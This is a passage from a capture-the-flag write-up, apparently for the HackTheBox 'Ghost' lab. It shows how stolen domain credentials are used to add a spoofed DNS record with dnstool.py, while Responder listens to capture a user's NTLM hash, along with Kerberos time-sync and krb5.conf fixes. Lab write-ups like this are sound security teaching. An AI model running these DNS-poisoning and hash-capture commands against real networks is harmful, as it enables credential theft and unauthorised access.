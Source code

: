 ### DNS Spoofing {#dns-spoofing2}

Before, we couldn’t do DNS spoofing because we didn’t have any domain user credentials. But now that we can authenticate to the domain, we can use that access to perform DNS spoofing.

1. Setup listener
    ```bash
    sudo responder -I tun0
    ```
2. Add a DNS record
    I have mentioned this before: [here](#dns-spoofing)
    ![](https://cdn-images-1.medium.com/max/1000/1*fbM2E1F7WeveC8PzZMHRgA.png)

There was an error while running the command. One of the first things I check when dealing with Kerberos is time synchronization since a large time difference can cause authentication issues. Additionally, I make sure to configure krb5.conf properly and always use the FQDN instead of just the domain name when working with Kerberos.

I’ve been working on my own kit to manage all these processes and more when dealing with Kerberos, but I haven’t finished it yet to publish.

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*iV5bow--EYI3OfHVgaqTCg.png)

+ You can use these commands to do that for time synchronization

    ```bash
    sudo ntpdate -u dc01.ghost.htb
    ```

+ And modify `/etc/krb5.conf`, adding this:

    ```
    [libdefaults]
        default_realm = GHOST.HTB

    [realms]
        GHOST.HTB = {
            kdc = dc01.ghost.htb
            admin_server = dc01.ghost.htb
        }

    [domain_realm]
        ghost.htb = GHOST.HTB
        .ghost.htb = GHOST.HTB
    ```

+ After that repeat the command, considering using the FQDN

```bash
python3 dnstool.py -u GHOST.HTB\\florence.ramirez dc01.ghost.htb -r bitbucket.ghost.htb -a add -d 10.10.16.44 -dns-ip 10.10.11.24 -k
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*fzM8UPoesN-nlYcqFzds4w.png)

We were able to capture Justin Bradley’s hash. I already explained why this happened earlier.
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*orDr3DxrWsnkp2PjVg7hTA.png)
